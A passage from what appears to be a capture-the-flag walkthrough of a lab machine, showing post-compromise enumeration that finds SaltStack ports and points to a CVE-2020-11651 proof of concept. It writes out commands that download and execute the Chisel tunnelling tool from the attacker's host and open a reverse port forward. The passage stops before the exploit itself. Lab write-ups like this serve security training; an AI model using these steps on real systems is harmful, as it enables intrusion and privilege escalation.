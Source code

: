 ```shell
tomcat@VirusBucket:~$ cd /home/tomcat
tomcat@VirusBucket:~$ ls
user.txt
```

## Elevating privilige: tomcat -> root

### Enumeration

runing `netstat` reveals some intrnal ports.

```shell
netstat -ltn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:4505          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:37433         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:4506          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN     
tcp6       0      0 :::8080                 :::*                    LISTEN 
```
the two ports `4505 and 4506` caught my eyes .so i google to find out
what these port used for by default.[**Here**](https://docs.saltstack.com/en/latest/topics/tutorials/firewall.html) . i found port 4505 and 4506 are saltstack.and  i found the [**poc**](https://github.com/jasperla/CVE-2020-11651-poc) for CVE-2020-11651.

### POC exploit

  we need to fordward port 4506 and exploit it on our machine as we need `salt` python module which is not installed on target machine.let transfer [**Chisel**](https://github.com/jpillora/chisel/releases) to target machine.

  start the server from chisel directory

```shell
  ┌─[oxy@oxy]─[~/tools]
  └──╼ $python3 -m http.server 4321
        Serving HTTP on 0.0.0.0 port 4321 (http://0.0.0.0:4321/)
```
  
 download chisel on target box and forward port 4506

```shell
  tomcat@VirusBucket$ cd /dev/shm
 tomcat@VirusBucket:/dev/shm$ wget http://10.10.14.68:4321/chisel                   
 tomcat@VirusBucket:/dev/shm$ chmod +x chisel
 tomcat@VirusBucket:/dev/shm$ ./chisel client 10.10.14.68:1234 R:4506:127.0.0.1:4506
 2020/10/05 10:42:15 client: Connecting to ws://10.10.14.68:1234
 2020/10/05 10:42:17 client: Fingerprint f4:f2:94:8a:42:4c:14:41:93:e7:3a:30:96:52:74:99
 2020/10/05 10:42:18 client: Connected (Latency 309.19257ms)
```
  